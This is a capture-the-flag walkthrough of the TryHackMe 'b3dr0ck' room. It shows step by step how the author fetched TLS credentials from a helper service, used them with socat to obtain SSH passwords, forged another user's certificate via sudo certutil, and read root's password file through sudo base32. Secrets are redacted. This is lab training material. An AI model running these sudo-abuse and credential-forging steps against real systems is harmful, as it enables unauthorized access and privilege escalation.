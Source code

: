 ```yaml
---
title: TryHackme - b3dr0ck
date: 2022-09-04 22:19:00 +0100
categories: [TryHackMe]
tags: [TryHackMe, socat, certutil, sudo, base32, base64]
render_with_liquid: false
---
```


# b3dr0ck

# recon

I added the machine’s IP to my `/etc/hosts` as `bedrock.thm` then ran an `nmap` scan to find `ssh` and `http` ports open

```bash
$ sudo nmap bedrock.thm  -v
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9009/tcp open  pichat
```

besides the box had a helpful description

```bash
Barney is setting up the ABC webserver, and trying to use TLS certs to secure connections, but he's having trouble. Here's what we know...

		- He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
		- There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
    - There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
    Can you find all the Easter eggs?

```

so now I know there are 4 open ports on the box

## http

the website had nothing interesting besides this note

```bash
Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...
```

so I went to check port 9009, which gave me a private key (the commands were guessed based on what the text was saying) and a certificate to connect to a service running on a higher port

```bash
$ nc bedrock.thm 9009
__          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               
What are you looking for? help
Looks like the secure login service is running on port: 54321

Try connecting using:
socat stdio ssl:MACHINE_IP:54321,cert=<CERT_FILE>,key=<KEY_FILE>,verify=0
What are you looking for? key

Sounds like you forgot your private key. Let's find it for you...
-----BEGIN RSA PRIVATE KEY-----
[REDACTED KEY]
-----END RSA PRIVATE KEY-----
What are you looking for? cert
Sounds like you forgot your certificate. Let's find it for you...
-----BEGIN CERTIFICATE-----
[REDACTED CERTIFICATE]
-----END CERTIFICATE-----

What are you looking for?
```

after saving the key and the cert to a file I connected to port 54321 which gave me the `barney`'s ssh password

```bash
$ socat stdio ssl:bedrock.thm:54321,cert=cert.pem,key=private.key,verify=0

 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
b3dr0ck> user
Current user = 'Barney Rubble' (valid peer certificate)
b3dr0ck> ^C
$ ssh barney@bedrock.thm
barney@bedrock.thm's password: 
barney@b3dr0ck:~$ ls -a
.  ..  barney.txt  .bash_history  .bash_logout  .bashrc  .cache  .hushlogin  .profile  .viminfo
barney@b3dr0ck:~$ cat barney.txt 
THM{RADACTED}
```

# privilege escalation

after getting on the machine I found that user have can run `/usr/bin/certutil` with root, the program take the user first and last name as input, and gives some sort of private key and a certificate

```bash
barney@b3dr0ck:~$ sudo -l
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
barney@b3dr0ck:~$ sudo /usr/bin/certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]

barney@b3dr0ck:~$
```

now I needed the full name of another user, viewing the content of `/etc/password` reveled the other name which is `Fred Flintstone`

```bash
barney@b3dr0ck:~$ sudo /usr/bin/certutil fred 'Fred Flintstone'
Generating credentials for user: fred (Fred Flintstone)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[REDACTED PRIVATE KEY]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[REDACTED CERTIFICATE]
-----END CERTIFICATE-----
```

I used the private key and the cert to connect to the service running at port 54321 again, this time to get `fred`'s ssh password

```bash
$ socat stdio ssl:bedrock.thm:54321,cert=fred_cert.pem,key=fred_private.key,verify=0

 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck> user
Current user = 'Fred Flintstone' (valid peer certificate)
b3dr0ck> help
Password hint: [REDACTED] (user = 'Fred Flintstone')
b3dr0ck> ^C
$ ssh fred@bedrock.thm 
fred@bedrock.thm's password: 
fred@b3dr0ck:~$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  fred.txt  .hushlogin  .profile  .selected_editor  .ssh  .viminfo
fred@b3dr0ck:~$ cat fred.txt 
THM{REDACTED}
```

this user could run exfiltrate a hash of the `root`'s password with `/usr/bin/base32` 

```bash
fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
fred@b3dr0ck:~$ sudo /usr/bin/base32 /root/pass.txt | base32 -d | base32 -d | base64 -d
[REDACTED]
```

I used crackstation to the clear text password then successfully logged in as root (btw the password wasn’t in rockyou.txt which is a first xd)

```bash
fred@b3dr0ck:~$ su -
Password: 
root@b3dr0ck:~# ls -a
.  ..  .bash_history  .bashrc  pass.txt  .profile  root.txt  snap  .ssh  .viminfo
root@b3dr0ck:~# cat root.txt 
THM{REDACTED}
root@b3dr0ck:~#
```

---

